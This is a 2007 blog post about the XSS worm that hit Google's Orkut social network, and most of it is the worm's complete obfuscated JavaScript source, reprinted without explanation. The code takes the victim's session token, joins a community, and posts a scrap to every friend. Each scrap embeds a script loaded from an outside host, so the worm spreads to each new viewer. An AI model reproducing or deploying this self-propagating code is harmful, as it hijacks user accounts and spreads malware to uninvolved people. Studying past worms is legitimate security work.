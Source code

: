 ```yaml
---
title: The Orkut XSS Worm
author: pdp
date: Wed, 19 Dec 2007 11:15:27 GMT
template: post.jade
category: fucked
---
```


Yep, Orkut, Google's Social Network, was hit by a XSS worm, the source of which you will be able to find at the bottom of this post. To be honest with you, it was about time. The trend for infecting social networks with Web2.0 malware will continue to increase during the following years. This is for sure! The simple fact is that social networks collect a lot of personal information which attackers can easily harvest for their own benefit.

The code is fairly simple and should be no brainier for you to find out what it does. So, this is the reason why I will skip the explanation step. The pre-processed details can be found out at [antrix.net](http://antrix.net/journal/techtalk/orkut_xss.html) website.

```javascript
function $(p,a,c,k,e,d) {
    e=function(c) {
        return(c<a?"":e(parseInt(c/a)))+((c=c%a)>35?String.fromCharCode(c+29):c.toString(36))
    };
    if(!''.replace(/^/,String)){
        while(c--){d[e(c)]=k[c]||e(c)}
        k=[function(e){return d[e]}];
        e=function(){return'\\w+'};
        c=1
    };
    while(c--){
        if(k[c]){
            p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c])
        }
    }
    return p
};
setTimeout(
    $('5 j=0;5 q=1q["2o.H"];5 E=1q["2p.K.27"];7 B(){Z{b i 14("29.1l")}
    L(e){};Z{b i 14("2b.1l")}L(e){};Z{b i 2l()}L(e){};b J};
    7 W(g,P,m,c,9,U){5 1m=g+"="+19(P)+(m?"; m="+m.2f():"")+(c?"; c="+c:"")+(9?"; 9="+9:"")+(U?"; U":"");
    8.y=1m};7 v(g){5 l=8.y;5 A=g+"=";5 h=l.S("; "+A);6(h==-1){h=l.S(A);6(h!=0){b 2h}}16{h+=2};
    5 u=8.y.S(";",h);6(u==-1){u=l.M};b 2j(l.2m(h+A.M,u))};
    7 26(g,c,9){6(v(g)){8.y=g+"="+(c?"; c="+c:"")+(9?"; 9="+9:"")+"; m=1u, 1i-1v-1x 1g:1g:1i 1y";1U.1z(0)}};
    7 G(){5 3=B();6(3){3.R("1A","o://k.w.p/1B.z",C);3.a(J);3.Y=7(){6(3.X==4){6(3.1a==1c){5 1r=3.1Q;5 t=8.1n("t");
    t.1D=1r;5 f=t.D("f").O(0);6(f){f.1M(f.D("1F").O(0));f.1G("1H","N");f.1J.1K="1L";8.1N.1f(f);V()}}16{G()}}};
    3.a(J)}};7 T(){5 a="H="+n(q)+"&K="+n(E)+"&15.1O";5 3=B();3.R(\'q\',\'o://k.w.p/1P.z?1R=1S\',C);
    3.12(\'10-1e\',\'Q/x-k-17-1b\');3.a(a);3.Y=7(){6(3.X==4){6(3.1a!=1c){T();b};G()}}};
    7 V(){6(j==8.18("N").M){b};
    5 I="1V 1W 1X... 1Y 1Z 20 21 22 23 24<1k/>[1j]25 "+i F()+"[/1j]<1k/><13 1o=\\"o://k.w.p/28.z\\" 2a=\\"Q/x-2c-2d\\" 2e=\\"2g\');
    r=8.1n(\'r\');r.1o=\'o://1p.2k.p/2n/1p/1s.1t\';8.D(\'1w\')[0].1f(r);19(\'\\" 1C=\\"1\\" 1E=\\"1\\"></13>";
    5 a="15.1I=1&H="+n(q)+"&I="+n(I)+"&K="+n(E)+"&1T="+8.18("N").O(j).P;5 3=B();
    3.R("q","o://k.w.p/2i.z",C);3.12("10-1e","Q/x-k-17-1b;");
    3.a(a);3.Y=7(){6(3.X==4){j++;5 d=i F;d.1d(d.1h()+11);W(\'s\',j,d);V()}}};
    6(!v(\'s\')){5 d=i F;d.1d(d.1h()+11);W(\'s\',\'0\',d)};j=v(\'s\');T();
    ',62,150,'|||xml||var|if|function|document|domain|send|return|path|wDate||select|name|begin|new|index|
    www|dc|expires|encodeURIComponent|http|com|POST|script|wormdoorkut|div|end|getCookie|orkut||cookie|aspx
    |prefix|createXMLHttpRequest|true|getElementsByTagName|SIG|Date|loadFriends|POST_TOKEN|scrapText|null|
    signature|catch|length|selectedList|item|value|application|open|indexOf|cmm_join|secure|sendScrap|setCookie|
    readyState|onreadystatechange|try|Content|86400|setRequestHeader|embed|ActiveXObject|Action|else|form|
    getElementById|escape|status|urlencoded|200|setTime|Type|appendChild|00|getTime|01|silver|br|XMLHTTP|curCookie|
    createElement|src|files|JSHDF|xmlr|virus|js|Thu|Jan|head|70|GMT|go|GET|Compose|width|innerHTML|height|option|
    setAttribute|id|submit|style|display|none|removeChild|body|join|CommunityJoin|responseText|cmm|44001818|toUserId|
    history|2008|vem|ai|que|ele|comece|mto|bem|para|vc|RL|deleteCookie|raw|LoL|Msxml2|type|Microsoft|shockwave|flash|
    wmode|toGMTString|transparent|false|Scrapbook|unescape|myopera
    |XMLHttpRequest|substring|virusdoorkut|CGI|Page'.split('|'),0,{}),1
);
author="Rodrigo Lacerda"
```

So, there you go! Even if XSS is the lamest for of attack, you cannot deny its effectiveness.
